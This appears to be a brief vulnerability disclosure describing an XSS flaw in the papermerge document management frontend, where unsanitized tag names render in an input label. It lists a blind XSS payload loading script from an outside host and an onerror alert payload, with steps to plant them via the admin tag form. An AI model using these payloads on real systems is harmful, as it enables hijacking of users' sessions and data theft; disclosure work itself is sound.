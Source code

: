 # Description
Frontend part for papermerge backend.
# Technical Description
XSS in papermerge DMS via rendering of unsanitized tag name in the input label.
# Proof of Concept

* XSS payloads Used for exploit :
  * blind xss payload : ```"><script src=https://copp.xss.ht></script> ``` **use your own blind payloads**
  * Reflected XSS payload : ```<img src=x onerror=alert(1337)>```

1. setup papermerge in your localhost 
2. move to http://127.0.0.1:8000/admin/tag/add/
3. put the payload in the Name field 
4. BOOM !! XSS triggered
